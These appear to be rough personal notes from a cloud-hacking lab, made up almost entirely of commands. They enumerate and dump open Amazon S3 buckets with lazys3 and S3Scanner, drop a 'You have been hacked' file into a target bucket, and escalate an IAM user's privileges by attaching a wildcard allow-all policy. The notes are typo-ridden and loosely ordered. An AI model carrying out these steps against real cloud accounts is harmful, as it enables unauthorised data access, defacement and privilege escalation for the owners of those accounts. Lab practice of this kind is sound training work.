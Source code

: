 # cloud computing

 cd lazys3-master/

ruby lazys3.rb

To do so, type ruby lazys3.rb [Company] and press Enter.

cd S3Scanner/ 

pip3 install -r requirements.txt 

python3 ./s3scanner.py sites.txt and press Enter to run the tool.

# additional
Dump all open buckets and log both open and closed buckets in found.txt:

python3 ./s3scanner.py --include-closed --out-file found.txt --dump names.txt

Just log open buckets in the default output file (buckets.txt):


python3 ./s3scanner.py names.txt

# hacking amazonn key website

pip3 install awscli

aws configure 

then go to firefox 

https://console.aws.amazon.com

Type your AWS account password in the Password field and click Sign in.

drop-down menu and click Security Credentials

access keys (access key ID and secret access key) in the Your Security Credentials section.

Copy the Access Key ID displayed by pressing Ctrl+C on your keyboard and switch to the Terminal window.

In the Default region name field, type eu-west-1 and press Enter.

Let us list the directories in the certifiedhacker1 bucket. In the terminal window, type aws s3 ls s3://[Bucket Name] (here, Bucket Name is certifiedhacker1) and press Enter.

type this in chrome

https://certifiedhacker1.s3.amazonaws.com

 next come to command 

echo “You have been hacked” >> Hack.txt
 
 next 

aws s3 mv Hack.txt s3://certifiedhacker1

now got o chrome and see you can see the hacktext with key at last do this 

Let us delete the Hack.txt file from the certifiedhacker1 bucket. In the terminal window, type aws s3 rm s3://certifiedhacker1/Hack.txt and press Enter.

 next

Escalate IAM User Privileges by Exploiting Misconfigured User Policy

# aws configure
vim user-policy.json 

 type this in 

"Version":"2012-10-17",

"Statement": [

{

    "Effect":"Allow",

    "Action":"*",

    "Resource":"*"

}

]

 Esc button. Then, type :wq! and press Enter to save the text document.
 
 type this full command 

aws iam create-policy --policy-name user-policy --policy-document file://user-policy.json and press Enter.

In the terminal, type aws iam attach-user-policy --user-name [Target Username] --policy-arn arn:aws:iam::[Account ID]:policy/user-policy and press Enter.

 next command

aws iam list-attached-user-policies --user-name [Target Username] 

aws iam list-users

Save the file listings of all open buckets to a file:

python ./s3scanner.py --list names.txt


